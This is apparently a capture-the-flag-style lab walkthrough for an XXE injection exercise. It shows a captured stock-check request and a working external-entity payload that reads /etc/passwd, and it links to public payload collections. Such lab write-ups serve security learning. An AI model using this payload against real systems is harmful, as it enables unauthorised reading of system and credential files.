

---
tags:
  - xxe
  - xml
---
# Exploiting XXE using external entities to retrieve files

## Instructions

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

## Solution

Note that when we check the stock of an item, the request includes XML. This suggests that the application must be using some kind of XML parser. 

```text title="XML in the stock check request"
POST /product/stock HTTP/1.1
Host: 0a09001e0461781882731b9f004000f0.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: https://0a09001e0461781882731b9f004000f0.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a09001e0461781882731b9f004000f0.web-security-academy.net
Connection: keep-alive
Cookie: session=6tT90kdAO6RN4ciqUEzZQstIwHix8Tka
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: orange
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

We can try a payload from hacktricks or payloadsallthethings to retrieve the `/etc/passwd` file. 

https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html#xml-basics

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe

In this case, we can use the following payload to get the contents of the `/etc/passwd` file:

```text title="Working payload"
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
```




This solves the lab.